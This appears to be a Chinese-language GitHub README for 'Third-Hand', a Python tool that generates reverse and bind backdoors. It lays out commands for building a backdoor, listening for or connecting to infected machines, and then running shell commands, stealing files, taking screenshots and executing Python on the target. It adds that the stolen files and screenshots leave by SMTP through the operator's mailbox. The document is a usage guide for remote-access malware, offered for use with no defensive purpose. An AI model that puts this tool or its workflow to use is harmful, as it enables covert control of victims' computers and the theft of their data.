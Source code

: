 # Third-Hand

## 如何使用Third-Hand  

用Python 3.10或以上版本的解释器运行Third-Hand.py  

运行结果
```
     _____ _     _         _   _   _                 _ 
    |_   _| |__ (_)_ __ __| | | | | | __ _ _ __   __| |
      | | | '_ \| | '__/ _` | | |_| |/ _` | '_ \ / _` |
      | | | | | | | | | (_| | |  _  | (_| | | | | (_| |
      |_| |_| |_|_|_|  \__,_| |_| |_|\__,_|_| |_|\__,_|
                                                    
                                            V 0.1
    
Third-Hand $>
```  

### 使用generate命令生成后门  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向后门
   当选项的值为1时 生成的为正向后门
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向后门  

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向后门连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```

## Third-Hand的翻译工作  

由大佬onion108提供 尽情期待


   
